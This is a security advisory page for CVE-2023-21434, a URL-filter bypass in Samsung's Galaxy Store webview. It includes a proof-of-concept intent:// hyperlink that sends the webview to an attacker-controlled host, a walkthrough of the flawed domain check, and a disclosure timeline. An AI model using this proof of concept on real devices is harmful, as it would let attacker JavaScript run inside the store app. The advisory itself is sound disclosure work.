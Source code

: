 ```yaml
---
layout: cve
title: "Samsung Galaxy Store Arbitrary JavaScript Execution"
cve_id: "CVE-2023-21434"
date: 2023-01-01
reference: 
  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-21433
  - https://security.samsungmobile.com/serviceWeb.smsb?year=2023&month=1
description: "Improper input validation vulnerability in Galaxy Store prior to version 4.5.49.8 allows local attackers to execute JavaScript by launching a web page."
---
```


#### Original post: [https://research.nccgroup.com/2023/01/20/technical-advisory-multiple-vulnerabilities-in-the-galaxy-app-store-cve-2023-21433-cve-2023-21434/](https://research.nccgroup.com/2023/01/20/technical-advisory-multiple-vulnerabilities-in-the-galaxy-app-store-cve-2023-21433-cve-2023-21434/)

|    **Product**    | Galaxy Store 4.5.48.3, other versions affected |
|    **Severity**   |                  Moderate                  |
| **CVE Reference** |             CVE-2023-21434             |
|      **Type**     |      URL Filter Bypass      |

## Summary

It was found that a webview within the Galaxy App Store contained a filter which limited which domains that webview could browse to. However, the filter was not properly configured, which would allow the webview to browse to an attacker controlled domain.

## Impact

Either tapping a malicious hyperlink in Google Chrome or a pre-installed rogue application on a Samsung device can bypass Samsung’s URL filter and launch a webview to an attacker controlled domain.

## Proof of Concept (PoC)

While using the Chrome web browser on a Samsung device, the following hyperlink can be tapped to exploit this issue:

```
<h1>
  <a id="yayidyay" rel="noreferrer" href="intent://cloudgame/monitor?monitoringHost=<host>#Intent;action=android.intent.action.VIEW;package=com.sec.android.app.samsungapps;scheme=normalbetasamsungapps;S.android%2eintent%2eextra%2eREFERRER_NAME=http://com.sec.android.app.samsungapps;end">
YAYPOCYAY</a>
</h1>
```

In the above PoC, "<host>" needs to be replaced with an attacker controlled domain, and a malicious website must be hosted on the domain over HTTPS. The domain name must have "player.glb.samsung-gamelauncher.com" in it. For example, the domain "player.glb.samsung-gamelauncher.com.nccgroup.com" would be a valid domain.

## Technical Walkthrough

After launching the above PoC, the class `com.sec.android.app.samsungapps.deeplink.CloudGameDeepLink` is loaded, and the method `e(context)` is executed. This method determines if the Cloud Game deeplink should be executed, and the requirements to return "True" are:

* The "sender" of the intent must be "com.sec.android.app.samsungapps"
    * This can be achieved by adding the string intent extra `android.intent.extra.REFERRER_NAME` in a browsable intent, and launched from the Google Chrome browser
    * Using the Samsung Browser will not meet this requirement due to how the browser handles browsable intents
* The "monitoringHost" parameter must contain the string "player.glb.samsung-gamelauncher.com"

```
private boolean e(Context context) {
    if (context.getPackageName().equals(getSender())) {
        return this.L.getMonitoringHost().contains("player.glb.samsung-gamelauncher.com");
    }
    Loger.w(String.format("[%s] Unauthorized access from %s", M, getSender()));
    return false;
    }
```

An attacker can register an arbitrary domain and add "player.glb.samsung-gamelauncher.com" as a subdomain. For example, the domain "player.glb.samsung-gamelauncher.com.nccgroup.com" would force the method `e(context)` to return "True"

## Recommendation

Samsung has released an updated version of the Galaxy App Store (version 4.5.49.8). Users should open the Galaxy App Store on their phone, and if prompted, download and install the latest version.

## Timeline

|    **Date**    | **Summary** |
|   03/12/2022   | Samsung notified of vulnerability |
|   03/12/2022   | Samsung acknowledge receipt of report and a security analyst was assigned to analyze the report |
|   18/12/2022   | Samsung confirmed the vulnerability and rated it as a Moderate risk |
|   01/01/2023   | Samsung has released Galaxy App Store version 4.5.49.8 and has publicly disclosed the issue |